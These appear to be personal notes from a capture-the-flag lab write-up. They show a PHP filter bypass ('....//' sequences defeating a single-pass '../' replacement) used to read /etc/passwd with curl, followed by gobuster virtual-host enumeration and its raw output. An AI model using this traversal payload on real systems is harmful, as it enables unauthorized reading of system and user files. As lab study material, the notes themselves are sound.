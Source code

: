 aparently I havent this resource, i must investigate to get it .


we have the code on base64, so we must do a = echo "text"  base64 -d ; echo

This script has a sanitization, when we put "../" it is replaced by " "
![[scriptphp.png]]
But if we made ....//....//....//etc/passwd will remain two points and a slash, because only replace it once, not twice
![[explanation.png]]
#Directory-path-traversal
(THIS IS A DIRECTORY PATH TRAVERSAL)
This will be the path traversal
```
curl -s -X GET ....//....//....//....//....//etc/passwd
```
And we did it. When we do this, we can se the users on the machine. (with the | grep sh$ we can see which of them are users with bash.. that are registered users that can execute a bash on the sistem)

we are going to see the /etc/hosts, this is an #enumeration process

with gobuster we may see this hosts on localhost, if we have done a research.
w(dictionary)
u (url)
vhost (virtual host?)
t (threads)
```
gobuster vhost -u http://shuriken.local -w /usr/share/DNS/subdomains-top1million-5000.txt -t 20
```
a lot of "vhost" 

```
Found: 1 Status: 400 [Size: 427]
Found: 11192521404255 Status: 400 [Size: 427]
Found: gc._msdcs Status: 400 [Size: 427]
Found: 11192521403954 Status: 400 [Size: 427]
Found: 2 Status: 400 [Size: 427]
Found: 11285521401250 Status: 400 [Size: 427]
Found: 2012 Status: 400 [Size: 427]
Found: 11290521402560 Status: 400 [Size: 427]
Found: 123 Status: 400 [Size: 427]
Found: 2011 Status: 400 [Size: 427]
Found: 3 Status: 400 [Size: 427]
Found: 4 Status: 400 [Size: 427]
Found: 2013 Status: 400 [Size: 427]
Found: 2010 Status: 400 [Size: 427]
Found: 911 Status: 400 [Size: 427]
Found: 24 Status: 400 [Size: 427]
Found: 10 Status: 400 [Size: 427]
Found: 7 Status: 400 [Size: 427]
Found: 99 Status: 400 [Size: 427]
Found: 2009 Status: 400 [Size: 427]
Found: www.1 Status: 400 [Size: 427]
Found: 11 Status: 400 [Size: 427]
Found: 50 Status: 400 [Size: 427]
Found: 12 Status: 400 [Size: 427]
Found: 20 Status: 400 [Size: 427]
Found: 2008 Status: 400 [Size: 427]
Found: 25 Status: 400 [Size: 427]
Found: 15 Status: 400 [Size: 427]
Found: 5 Status: 400 [Size: 427]
Found: www.2 Status: 400 [Size: 427]
Found: 13 Status: 400 [Size: 427]
Found: 100 Status: 400 [Size: 427]
Found: 44 Status: 400 [Size: 427]
```